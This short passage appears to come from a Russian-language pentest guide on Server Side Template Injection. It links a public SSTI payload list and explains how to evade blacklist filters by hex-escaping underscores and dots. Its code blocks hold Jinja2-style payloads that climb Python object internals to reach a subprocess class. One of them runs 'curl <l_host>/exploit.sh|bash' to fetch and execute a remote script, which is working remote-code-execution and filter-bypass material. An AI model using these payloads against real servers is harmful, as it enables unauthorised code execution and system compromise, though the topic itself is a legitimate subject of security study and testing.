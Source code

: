 [Server Side Template Injection Payloads](https://github.com/payloadbox/ssti-payloads)
Payload выше можно изменять для обхода защиты чёрного списка. А именно:
**Замена "_" на “\\x5f” и "." на "\\x2E" или объединение строк массивов. Пример:** 
```
{{"".__class__}}  
{{""["\x5f\x5fclass\x5f\x5f"]}}
```
```
{{''.__class__.__mro__[1].__subclasses__()[287]}}  
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[365]('curl <l_host>/exploit.sh|bash',shell=True,stdout=-1).communicate()}}
```

